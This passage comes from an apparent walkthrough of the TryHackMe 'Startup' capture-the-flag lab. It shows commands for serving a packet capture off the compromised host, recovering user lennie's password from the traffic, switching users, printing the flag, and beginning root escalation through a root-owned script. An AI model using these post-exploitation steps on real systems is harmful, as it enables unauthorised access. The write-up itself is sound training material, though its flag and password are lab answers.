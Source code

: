   ```
  www-data@startup:/incidents$ cp suspicious.pcapng /var/www/html/files/
  cp: cannot create regular file '/var/www/html/files/suspicious.pcapng': Permission denied
  
  www-data@startup:/incidents$ python3 -m http.server 1234
  Serving HTTP on 0.0.0.0 port 1234 ...
  [YOUR-THM-IP] - - [15/May/2025 14:21:07] "GET /suspicious.pcapng HTTP/1.1" 200 -
  ^C
  Keyboard interrupt received, exiting.
  ```
  
- Now, open the `.pcap` file in Wireshark, filter HTTP traffic and you'll see info about reverse shell being uploaded on target machine. After following TCP stream on packets near the end of `pcap` file, you'll find a password.

  ```
  Sorry, try again.
  [sudo] password for www-data: 
  c4ntg3t3n0ughsp1c3
  ```

- I tried this password for user `lennie` and it actually worked. After that just read the flag.

  ```
  www-data@startup:/incidents$ su lennie
  Password: 
  lennie@startup:/incidents$
  
  lennie@startup:/incidents$ cd /home/lennie
  lennie@startup:~$ ls -la
  total 20
  drwx------ 4 lennie lennie 4096 Nov 12  2020 .
  drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
  drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
  drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
  -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
  
  lennie@startup:~$ cat user.txt 
  THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
  ```

- Now escalation.

---

## 👑 Root Privilege Escalation

- So `sudo -l`, capabilities and cronjobs returned nothing. The thing is, hint tells us how to escalate lol. In lennie's directory you can find directory `scripts` with 2 files inside, `.txt` file and an actual script.

  ```
  ennie@startup:~$ cd scripts/
  lennie@startup:~/scripts$ ls -al
  total 16
  drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
  drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
  -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
  -rw-r--r-- 1 root   root      1 May 15 14:31 startup_list.txt
  
  lennie@startup:~/scripts$ cat startup_list.txt 
  
  lennie@startup:~/scripts$ cat planner.sh 
  #!/bin/bash
  echo $LIST > /home/lennie/scripts/startup_list.txt
  /etc/print.sh
  ```
  